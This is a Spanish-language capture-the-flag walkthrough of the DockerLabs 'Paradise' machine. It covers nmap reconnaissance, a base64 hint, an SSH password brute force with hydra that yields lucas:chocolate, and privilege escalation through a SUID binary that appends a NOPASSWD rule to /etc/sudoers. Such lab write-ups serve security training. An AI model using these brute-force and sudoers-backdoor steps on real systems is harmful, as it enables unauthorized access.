


# paradise

Maquina "Paradise" de [DockerLabs](https://dockerlabs.es)

Autor: [kaikoperez](https://kiket25.github.io/HackStry/)

DIficultad: Fácil



## RECONOCIMIENTO

Comenzamos haciendo un escaneo con `nmap`:

```css
nmap -p- -n -vvv -sSVC -Pn --open --min-rate 5000 <ip> -oN escaneo.txt
```

```ruby
# Nmap 7.94SVN scan initiated Fri Sep 13 23:15:44 2024 as: nmap -p- -n -vvv -sSVC -Pn --open --min-rate 5000 -oN escaneo.txt 172.17.0.2
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.000014s latency).
Scanned at 2024-09-13 23:15:45 -03 for 18s
Not shown: 65531 closed tcp ports (reset)
PORT    STATE SERVICE     REASON         VERSION
22/tcp  open  ssh         syn-ack ttl 64 OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 a1:bc:79:1a:34:68:43:d5:f4:d8:65:76:4e:b4:6d:b1 (DSA)
| ssh-dss AAAAB3NzaC1kc3MAAACBAIO2Wyz8RV+TsSzmEEc6a+1aDtKIsiERWjdy6eST784/BJndgeAuPuZfuWGXZaAJYfc4Wns24THTRC3+LBukXI92+mzQeZPmOam9FBmv9HBU1zAUF4m74x6PJI4i/AqGolC2/kUpkAmJQZ0bGkjPx96SKqLKe83QEmTMkMTUB+UhAAAAFQDdR29vjtcRY9KFriRqXS7fm9NUPwAAAIBvWoittNHdSTrNMr2rgnGp90iRdI7PbEsW1K+JJKsM698zlPpSRrtvQh7lX0rvE+QGAigl617voB4gplv6DxOsErknrCssOlE521cQWcBG42ZlbGniOzDO0JjI/qRMIhynqLMARbZV8IfD2ZYdgUGfsAMFVlHCEX/eWdA3Q4s3xQAAAIBb2VK5TjXJu1Qp4F7K/ZmpommiIabZ4EUWCLW/uTltE0K7aWDq6bSxTRVXxl/Cg1Boo1HYrU2T/MazIXVLwj0Ou/Ld7FLYsW6h8g8uXtZw1bRp5R0k519o8b0k4DRL21HATboctnOYmvYsnIXieVPMpq57RICeU/zzmgjltw8PZw==
|   2048 38:68:b6:3b:a3:b2:c9:39:a3:d5:f9:97:a9:5f:b3:ab (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC91gxIuSG9qhKAtBXERuz5iPFlhQ4xRSkr+jDfh09Zzik/qHKOgeqt/SDMaSiYtgtYszEDqMKMogHZuYzpABGS7lQF8bzHNv4zotgOdZNT4jnPZpMvaMqbdmY1oq1Ts5G9O6QH4te7fWjixRnWk3P0U+xMPgd8D2vWP26chBq+eantqurCbwtbRd6So3AhkWOb+UC1S0D0g4fECU9vlxGwPGuDGIf/PCfBA2ab2IuDdoi+MrgqVSHzjGs5CxCHWWGlmw/eMfs9oF7JEGDSnSOQEVfqGTufgmKjUtyKgSQexLY1qRvsG4SGk0T0hXyZC/Ptr++2PPAiQQ9P+QU5w4WF
|   256 d2:e2:87:58:d0:20:9b:d3:fe:f8:79:e3:23:4b:df:ee (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBKwRIUW/AH9PR8pTk9Ja+G2/NCPE2OHRpNrktr6KJK9jNL8SnRbr6dGB0MlLU6G+/R0JPz6msMBYux1Zv8ykcbI=
|   256 b7:38:8d:32:93:ec:4f:11:17:9d:86:3c:df:53:67:9a (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIHVk3+Nsya30hqo9ExSdXD6LNvOH+kZl9emG3AHwtkQm
80/tcp  open  http        syn-ack ttl 64 Apache httpd 2.4.7 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Andys's House
|_http-server-header: Apache/2.4.7 (Ubuntu)
139/tcp open  netbios-ssn syn-ack ttl 64 Samba smbd 3.X - 4.X (workgroup: PARADISE)
445/tcp open  netbios-ssn syn-ack ttl 64 Samba smbd 4.3.11-Ubuntu (workgroup: PARADISE)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: Host: UBUNTU; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 0s, deviation: 1s, median: 0s
| smb2-time: 
|   date: 2024-09-14T02:15:58
|_  start_date: N/A
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: 51f4f26335d8
|   NetBIOS computer name: UBUNTU\x00
|   Domain name: \x00
|   FQDN: 51f4f26335d8
|_  System time: 2024-09-14T02:16:00+00:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 21783/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 23866/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 58197/udp): CLEAN (Failed to receive data)
|   Check 4 (port 64770/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Sep 13 23:16:03 2024 -- 1 IP address (1 host up) scanned in 18.74 seconds
```

Los puertos abiertos son:

`22: OpenSSH 6.6.1p1`

`80: Apache httpd`

`139: samba smbd`

`443: samba smbd`

**Puerto 80:**


No es una página con algo muy interesante, ya que no tiene algo que podamos explotar. Ahora si vamos a `/galery.html` y miramos el código fuente, podremos ver en el final **un mensaje en base64**, por lo que si lo transformamos a texto plano ejecutando `echo "XXXXXXXX" | base64 -d`, veremos que dice "estoesunsecreto". Luego de probar, descubro que es un directorio en la página. Dentro del mismo, tenemos una nota que dice lo siguiente:

```css
REMEMBER TO CHANGE YOUR PASSWORD ACCOUNT, BECAUSE YOUR PASSWORD IS DEBIL AND THE HACKERS CAN FIND USING B.F.
```

Viendo esto, sabemos que hay **un usuario lucas**, y que **podemos conseguir la contraseña mediante fuerza bruta**.

## INTRUSIÓN

Ahora usaremos `hydra` para obtener la contraseña de "lucas":

```css
hydra -l lucas -P <wordlist> ssh://<ip>
```


Ahora ya tenemos credenciales: `lucas:chocolate`.

Nos conectamos de la siguiente manera:

```css
ssh lucas@<IP>
```

## ESCALADA DE PRIVILEGIOS

#### Lucas

Estando dentro, ejecutamos `bash` para tener mayor comodidad y no usar sh. Ahora veremos los binarios con permisos `SUID`:

```css
find / -perm -4000 2>/dev/null
```

```abap
/bin/mount
/bin/ping
/bin/ping6
/bin/su
/bin/umount
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/sudo
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/local/bin/backup.sh
/usr/local/bin/privileged_exec
```

Si ejecutamos `/usr/local/bin/privileged_exec`, nos dirá que somos root, pero si ejecutamos `id` veremos lo siguiente:

```css
uid=0(root) gid=1001(lucas) groups=0(root),1001(lucas)
```

Aunque realmente seamos root, no lo somos al 100% para mi gusto, por lo que al final del `/etc/sudoers` agregaremos esto:

```css
lucas ALL=(ALL:ALL) NOPASSWD:ALL
```

Para hacerlo solo debemos ejecutar esto:

```css
echo "lucas ALL=(ALL:ALL) NOPASSWD:ALL" >> /etc/sudoers
```

Una vez hecho eso, ejecutamos `su` como lucas y seremos root:


